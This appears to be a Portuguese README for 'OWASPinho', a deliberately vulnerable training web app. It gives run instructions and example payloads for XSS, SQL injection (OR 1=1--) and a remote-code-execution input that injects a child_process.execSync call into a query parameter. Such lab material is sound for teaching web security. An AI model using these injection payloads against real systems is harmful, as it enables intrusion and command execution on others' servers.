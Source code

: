# OWASPinho
- [OWASPinho](#owaspinho)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)


## Execução

```
$ cd owaspinho
$ docker-compose up
```

![](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

![image-20230411163617555](images/image-20230411163617555.png)


## Vulnerabilidades 
### XSS
```
/?useriInput=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
### SQL Injection
```
/users?username=OR+1=1--&access-token=ASDASD
```
### RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ls').toString();%20}
```